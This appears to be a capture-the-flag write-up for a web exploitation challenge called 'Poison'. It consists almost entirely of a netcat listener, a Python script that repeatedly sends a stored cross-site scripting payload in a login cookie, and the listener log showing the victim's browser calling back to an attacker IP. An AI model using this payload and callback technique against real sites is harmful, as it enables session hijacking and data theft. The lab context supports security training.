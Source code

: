 ```yaml
---
title: Poison
categories: Web Exploitation
tags: 
draft: true
completedDuringEvent: true
submitted: true
points: 90
solves: -1
flags: THM{REDACTED}
---
```

> The CRM interface on the plant's internal network was supposed to help operators manage sensor maintenance and schedule firmware patches. Instead, someone turned it into a silent threat vector.
>
> A lab technician reported several inconsistencies. Data from the interface showed altered update statuses, injected redirects, and phantom users. Moments later, a batch of remote firmware triggers was misrouted… straight into the wrong PLCs.

---

```sh
nc -lnvp 1337
```

```py
import requests
import time

url = "http://10.10.67.238:8000/user.php"
cookie_value = "<script>setTimeout(() => fetch('http://10.17.37.98:1337/'), 2000)</script>"
cookies = {
    "loggedin": cookie_value
}

while True:
    try:
        response = requests.get(url, cookies=cookies)
        print(f"[+] Sent payload. Status: {response.status_code}")
        print(f"[+] Response body: {response.text}")
    except Exception as e:
        print(f"[-] Error: {e}")

    time.sleep(1)
```

```sh
$ $ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.17.37.98] from (UNKNOWN) [10.10.67.238] 48698
GET / HTTP/1.1
Host: 10.17.37.98:1337
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36 THM{REDACTED}
Accept: */*
Origin: http://10.10.67.238:8000
Referer: http://10.10.67.238:8000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

`User-Agent: ... Safari/537.36 THM{REDACTED}`

